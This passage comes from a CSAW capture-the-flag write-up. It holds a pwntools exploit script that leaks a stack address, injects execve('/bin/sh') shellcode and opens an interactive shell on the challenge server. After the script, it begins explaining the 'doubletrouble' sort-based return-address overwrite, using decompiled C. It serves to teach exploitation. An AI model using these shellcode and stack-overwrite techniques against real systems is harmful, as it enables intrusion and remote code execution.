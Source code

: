 ```python
	sh = remote("pwn.chal.csaw.io", 9005)
shellcode = "lea rdi,[rsp+0x28]\nxor rdx,rdx\nxor rsi,rsi"
sh.recvuntil("(15 bytes) Text for node 1:  \n")
sh.send("/bin/sh\x00\n")
sh.recvuntil("(15 bytes) Text for node 2: \n")
sh.send("A" * 5 + asm("\npush SYS_execve\npop rax\nsyscall", arch='amd64')  + "\n")
sh.recvuntil("node.next: 0x")
leak = sh.recv(6*2)
ret_addr = int(leak, 16)
sh.recvuntil("What are your initials?\n")
sh.send("A" * (3+8) + p64(ret_addr) + asm(shellcode, arch='amd64') + "\xeb\n")
sh.interactive()
```
to node 2 and initials

bacause the memory layout, is initials, node 2, node 1, from low address to high address

## 200 Pwn / doubletrouble ##

**Description**

> Did you know every Number in javascript is a float
> 
> `pwn.chal.csaw.io:9002`
> 
> nsnc

**Files provided**

 - [`doubletrouble`](files/doubletrouble)

**Solution** (by [Mem2019](https://github.com/Mem2019))

The problem is the total length will increase in `find_array`

```c
int __cdecl findArray(int *a1, double *a2, double a3, double a4)
{
  int v5; // [esp+1Ch] [ebp-4h]

  v5 = *a1;
  while ( *a1 < 2 * v5 )
  {
    if ( a2[*a1 - v5] > (long double)a3 && a4 > (long double)a2[*a1 - v5] )
      return *a1 - v5;
    ++*a1;
  }
  *a1 = v5;
  return 0;
}
```

Then it will sort according to the increased size, which can affect return address.

However, there is canary, so we need to let the canary stay at the same position after sorting, with return address being changed.
